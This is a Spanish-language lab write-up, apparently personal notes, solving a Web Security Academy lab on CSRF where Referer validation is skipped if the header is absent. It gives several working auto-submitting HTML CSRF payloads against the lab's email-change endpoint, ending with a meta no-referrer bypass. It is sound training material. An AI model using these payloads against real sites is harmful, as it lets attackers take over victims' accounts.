 ```yaml
---
layout: default
title: 11 - CSRF where Referer validation depends on header being present
---
```


El clásico CSRF tira `"Invalid referer header"`
```HTML
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a1200a8043a9d448163399400e50074.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test5555&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Enviando manualmente una cabecera referrer (no funciona porque los navegadores bloquean cabeceras referrer establecidas en formularios)
```HTML
<html>
  <body>
    <script>
      fetch("https://0a1200a8043a9d448163399400e50074.web-security-academy.net/my-account/change-email", {
        method: "POST",
        headers: {
          "Content-Type": "application/x-www-form-urlencoded",
          "Referer": "https://0a1200a8043a9d448163399400e50074.web-security-academy.net/my-account"
        },
        body: "email=test444%40test.com",
        credentials: "include"
      });
    </script>
  </body>
</html>

```


En su lugar añadir la propiedad `referrerpolicy="no-referrer"`  :
No parece funcionar

```HTML
<html referrerpolicy="no-referrer">
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a1200a8043a9d448163399400e50074.web-security-academy.net/my-account/change-email" method="POST" referrerpolicy="no-referrer">
      <input type="hidden" name="email" value="test50000&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Pero `<meta name="referrer" content="no-referrer">` si

Combinamos ambas por si acaso :
```HTML
<html>
  <head>
    <meta name="referrer" content="no-referrer">
  </head>
  <body>
    <form action="https://0a1200a8043a9d448163399400e50074.web-security-academy.net/my-account/change-email" method="POST" referrerpolicy="no-referrer">
      <input type="hidden" name="email" value="aaaaaaaaaaaaaaaaa@test.com" />
      <input type="submit" value="Submit" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

